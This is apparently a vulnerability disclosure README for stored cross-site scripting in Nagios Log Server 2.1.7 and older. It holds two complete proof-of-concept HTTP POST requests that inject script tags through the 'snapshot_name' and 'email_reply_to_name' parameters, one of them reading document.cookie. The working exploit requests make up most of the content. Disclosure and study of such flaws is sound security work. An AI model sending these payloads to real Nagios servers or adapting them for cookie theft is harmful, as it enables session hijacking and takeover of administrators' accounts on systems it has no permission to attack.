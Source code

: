 # Nagios-Log-Server-2.1.7-Persistent-Cross-Site-Scripting
A stored cross-site scripting (XSS) in [Nagios Log Server 2.1.7](https://www.nagios.com/products/nagios-log-server/) can result in an attacker performing malicious actions to users who open a maliciously crafted link or third-party web page.

[Nagios Log Server 2.1.7](https://www.nagios.com/products/nagios-log-server/) and older versions are affected by these vulnerabilities.


# PoC-1
To exploit vulnerability, someone could use a POST request to '/nagioslogserver/configure/create_snapshot' by manipulating 'snapshot_name' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
POST /nagioslogserver/configure/create_snapshot HTTP/1.1
Host: [TARGET]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
DNT: 1
Connection: close
Cookie: csrf_ls=b3bef5c1a2ef6e4c233282d1c1c229fd; ls_session=883lergotgcjbh9bjgaeakosv5go2gbb; PHPSESSID=nbah0vkmibpudd1qh7qgnpgo53
Upgrade-Insecure-Requests: 1

csrf_ls=b3bef5c1a2ef6e4c233282d1c1c229fd&snapshot_name=%22%3E%3Cscript%3Ealert%28document.domain%29%3B%3C%2Fscript%3E
```

![](https://emreovunc.com/blog/en/Nagios_Log_Server_Persistent_XSS.png)

![](https://emreovunc.com/blog/en/Nagios_Log_Server_Persistent_XSS_Request.png)

# PoC-2
To exploit vulnerability, someone could use a POST request to '/nagioslogserver/admin/mail' by manipulating 'email_reply_to_name' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
POST /nagioslogserver/admin/mail HTTP/1.1
Host: [TARGET]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 291
DNT: 1
Connection: close
Cookie: csrf_ls=6e418c757282ab5c4785dad327238158; ls_session=pscogfricmnpe9kpvbtcuccn8mfempgp
Upgrade-Insecure-Requests: 1

csrf_ls=6e418c757282ab5c4785dad327238158&email_from_name=Nagios+Log+Server&email_from=root%40localhost&email_reply_to_name=%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&email_reply_to=root%40localhost&email_method=mail&smtp_host=&smtp_crypto=&smtp_port=25&smtp_user=&smtp_pass=
```

![](https://emreovunc.com/blog/en/Nagios_Log_Server_Persistent_XSS-02.png)
